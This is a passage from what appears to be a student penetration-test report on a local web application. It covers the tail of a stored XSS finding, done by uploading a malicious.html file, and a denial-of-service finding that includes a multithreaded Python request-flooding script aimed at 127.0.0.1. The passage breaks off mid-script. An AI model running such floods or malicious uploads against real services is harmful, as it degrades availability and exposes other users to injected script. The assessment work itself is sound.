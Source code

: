 3. **Save file**

   - Save file as malicious.html

4. **Upload malicious file**

   - Upload malicious file by clicking "choose file" button and selecting file
   - Share the post by clicking "post" button

5. **Navigate to the uploads url and verify**
   - Navigate to /uploads/malicious.html
   - Confirm the alert message popup

![img-description](/assets/img/DAT250-Assignment-1/image8.jpg)

### **3.8 Denial of Service (DoS)**

**Description:** The web application is vulnerable to a Denial of Service (DoS) attack due to the absence of rate limiting on key endpoints. This allows an attacker to send a high volume of requests to specific endpoints, potentially leading to server performance degradation or unresponsiveness.

**Tools Used:** Python script

**Exploitation Steps:**

1. **Craft Attack Script:**

```python
import requests
import threading

url = "http://127.0.0.1:5000"

def send_request():
    while True:
        try:
            response = requests.get(url)
            print(f"Request sent, response code: {response.status_code}")
        except Exception as e:
            print(f"Error: {e}")

num_threads = 50
threads = []

```